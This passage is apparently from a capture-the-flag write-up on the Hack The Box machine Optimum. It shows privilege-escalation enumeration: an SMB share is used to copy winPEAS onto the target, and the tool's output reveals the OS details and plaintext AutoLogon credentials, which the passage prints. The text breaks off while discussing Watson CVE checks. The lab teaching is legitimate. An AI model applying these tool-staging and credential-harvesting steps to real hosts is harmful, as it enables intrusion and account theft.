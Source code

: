

## Shell as SYSTEM

### Enumeration - winPEAS

I started with
[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
to look for escalation paths. I cloned a copy of the repo to my host,
started an SMB server in the path with the Windows exe with
`sudo smbserver.py share . -smb2support`, and copied it to Optimum:



    PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe . 



Now I'll run it with `.\winPEAS.exe`. Scanning through the output, there
were a few interesting things.

The box is Windows Server 2012 R2, and 64-bit:



        Hostname: optimum                               
        ProductName: Windows Server 2012 R2 Standard
        EditionID: ServerStandard                       
        ReleaseId:                                      
        BuildBranch:                                    
        CurrentMajorVersionNumber:                      
        CurrentVersion: 6.3                             
        Architecture: AMD64



There were creds for kostas:



      [+] Looking for AutoLogon credentials
        Some AutoLogon credentials were found!!
        DefaultUserName               :  kostas
        DefaultPassword               :  kdeEjDowkS*    



A bunch of services were called out as potentially interesting, but
nothing in there really panned out.

### Enumeration - Watson/Sherlock

One thing I noticed was not in the winPEAS output was
[Watson](https://github.com/rasta-mouse/Watson) results. Watson is a
quick checker for CVEs this Windows host might be vulnerable to, and in
the original HTB days, that was a common escalation technique (in fact,
it is the intended path on this host). My best guess as to why it didn't
run is the .NET version required by Watson in winPEAS is 4.5, and this
host only has up to 4.0:
